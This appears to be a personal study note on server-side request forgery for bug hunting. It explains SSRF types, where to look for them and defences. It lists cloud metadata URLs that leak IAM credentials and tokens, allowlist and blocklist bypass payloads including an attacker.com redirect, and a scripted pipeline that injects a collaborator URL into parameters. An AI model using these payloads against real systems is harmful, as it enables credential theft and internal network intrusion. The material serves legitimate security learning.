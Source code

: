 ### what & why
> a vulnerability that lets an attacker send requests on behalf of a server, which allowing them to assume a privileged position on a network, bypass firewall controls, and gain access to internal services
### types
1. regular SSRF 
2. blind SSRF, the attacker does not receive feedback from the server via an HTTP response or an error message. can found via out-of-band DNS resolve request, or out-of-band HTTP request and then monitor your server logs, look for the server request headers
### Prevention
if the server does not make a distinction between internal and external resources this cuz the vulnerability, Two main types of protection against SSRFs exist: 
1. blocklists, The server will block a request if it contains a blocklisted address as input
2. allow-lists, The server will allow a request if url found in the allow-list
### hunt for it 
1. Spot Features Prone to SSRFs
	- SSRFs occur in features that require visiting and fetching external resources. These include webhooks, file uploads, document and image processors, link expansions or thumbnails, and proxy services.
		- Webhooks are custom HTTP callback endpoints used as a notification system for certain application events: such as new user sign-up or application error occurs
		- [H1 report](https://hackerone.com/reports/2301565)
	- any endpoint that processes a user-provided URL: imageURL,.. or any third-party software they may be using such as Jira
	- URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs)
	- hidden API endpoints that accept URLs as input, and input that gets inserted into HTML tags
	- test found open redirect
2. Provide Potentially Vulnerable Endpoints with Internal URLs
	- test how they handle local redirect by set up 302 response, or JS using pipdream, or NGrok. also u can sleep(1000) before the redirect
	- burp collaborator, intrach burp plug-in 
3. Check the Results for A service banner, errors
4. Since you cannot use blind SSRFs to read internal files or access internal services, u need to confirm it by explore internal network(Subnet scan), or port scan. and You can look especially for differences in response time and HTTP response codes, keep in mind may there are a firewall inplace.
5. Escalating the Attack
	1. scan the network for reachable hosts. find getway(10.0.0.1, 192.168.1.1) to locate the subnet 
	2. port-scan internal machines to fingerprint internal services. add port to payload url 
	3. collect instance metadata and get [[RCE]]
		Cloud computing services allow businesses to run their applications on other people’s servers, and offers an instance metadata tool that enables EC2 instances(VMs) to access data about themselves by querying the API endpoint at 169.254.169.254 `http://[::ffff:a9fe:a9fe]` IPv6 
		1. Querying EC2 Metadata: `http://169.254.169.254/latest/meta-data/`
			- http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.
			- http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.
			- http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.
			- http://169.254.169.254/latest/dynamic/instance-identity/document/ reveals the private IP address of the current instance.
			- http://169.254.169.254/latest/user-data/ returns user data on the current instance.
		1. Querying Google Cloud Metadata
		   Google implements additional security measures for its API endpoints, so querying Google Cloud Metadata APIv1 requires one of these special headers:
		   `Metadata-Flavor: Google`, `X-Google-Metadata-Request: True`
		   > bypass this protection, because most endpoints accessible through `APIv1` can be accessed via the `API v1beta1` endpoints instead. API v1beta1 is an older version of the metadata API that doesn’t have the same header requirements
			- http://metadata.google.internal/computeMetadata/v1beta1/instance/serviceaccounts/default/token returns the access token of the default account on the instance.
			- http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ ssh-keys ret
		1. DigitalOcean: http://169.254.169.254/metadata/v1/endpoint
		2. Kubernetes: https://kubernetes.default and https://kubernetes.default.svc/metrics
	1. bypass access controls may there are `admin.example.com`,APIs that only accessible throw intern connection
### bypass Protection
- Bypass Allowlists: by play with url => `https://pics.example.com@127.0.0.1` , `https://127.0.0.1/pics.example.com` , use a redirect function on `https://pics.example.com`
- Bypass Blocklists
	- Fooling It with Redirects: 
	  `https://public.example.com/proxy?url=https://attacker.com/ssrf`  where `attakcer.com` host `<?php header("location: http://127.0.0.1"); ?>`
	  - Using IPv6 Addresses: `::1` = localhost , `fc00::` is the first address on the private network.
	  - Tricking the Server with DNS: Modify the A/AAAA record of a domain you control and make it point to the internal addresses on the victim’s network. or just use online ones such: `hackingwithpentesterlab.link`, `spoofed.burpcollaborator.net`, `assets.pentesterlab.com.hackingwithpentesterlab.link`
	  - use alternative address: [http://0.0.0.0:1234], 
	  - Switching Out the Encoding
		  - 127.0.0.1 in decimal translates to `http://0x7f.0x0.0x0.0x1` in hex
		  - 127.0.0.1 translates to `http://0177.0.0.01` in octal
		  - 127.0.0.1 is the decimal representation of 01111111.00000000.00000000.00000001
		    When we translate the entire number, $(01111111000000000000000000000001)b$ = $(2130706433)dec$ so `https://2130706433` instead of `https://127.0.0.1`
	- URL-encoded: `https://localhost` => `https://%6c%6f%63%61%6c%68%6f%73%74` 
	- combined together `http://0177.0.0.0x1` , `http://127.0.1`, `http://127.1`

### automation
[SSRFmap](https://github.com/swisskyrepo/SSRFmap/),
```
Step 1: Subdomain Enumeration 
•DNS Dumpster •Sublist3r •Amass •Google Dorking •Certificate Transparency Logs •subdomainer
Step 2: Find Live Domains cat all-domains.txt | httpx > all-live.txt
Setp 2b: wayback machine: cat all-live.txt | python3 waymore.py | anew

Step 3: Identify All URLs cat all-live.txt | gauplus -subs -b png,jpg,gif,jpeg,swf,woff,gif,svg -o allUrls.txt

Step 4: Injection BurpCollaborator/Interactsh-Client URL in Parameters cat /home/casperino/tools/nuclei/httpx.txt | grep "=" | ./qsreplace http://40ga7gynfy6pcg06ov.oastify.com > ssrf.txt

  
Step 5: Test for SSRF Vulnerabilities cat ssrf.txt | httpx -fr

Step 6: How to check which URL is vulnerable split -l 10 ssrf.txt output_file_

```


other resources: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:437 a complete chapter(12) talked about how to exploit SSRF => port scanning, subnet scanning, mut more
